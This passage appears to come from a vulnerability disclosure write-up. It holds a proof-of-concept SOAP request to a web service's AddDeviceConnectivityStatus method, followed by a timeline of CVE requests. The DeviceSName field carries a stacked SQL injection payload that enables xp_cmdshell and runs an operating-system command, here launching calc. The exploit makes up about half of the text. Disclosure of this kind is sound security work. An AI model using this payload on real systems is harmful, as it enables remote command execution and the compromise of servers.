 poc

```http
POST /WebService.asmx HTTP/1.1
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml;charset=UTF-8
SOAPAction: "http://tempuri.org/AddDeviceConnectivityStatus"
Content-Length: 515
Host: 192.168.1.222:83
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)
Connection: keep-alive

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:AddDeviceConnectivityStatus>

         <tem:DeviceSName> x';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXEC xp_cmdshell 'cmd /c calc';-- </tem:DeviceSName>
 
         <tem:DeviceStatus>x</tem:DeviceStatus>
      </tem:AddDeviceConnectivityStatus>
   </soapenv:Body>
</soapenv:Envelope>
```

## 0x03 Disclosure Timeline

- **2025-05-18** – Submitted CVE ID request
- **2025-08-11** – No response received; inquired about CVE status
- **2025-08-11** – CVE request marked as closed
- **2025-08-14** – Submitted a new CVE ID request
- **2025-09-04** – Inquired about CVE request status; no reply
- **2025-09-13** – Followed up on CVE request; no reply
- **2025-09-23** – Followed up again; still no reply
- **2025-10-11** – Sent another follow-up; still no reply
- **2025-10-17** – Received CVE team reply including assigned CVE ID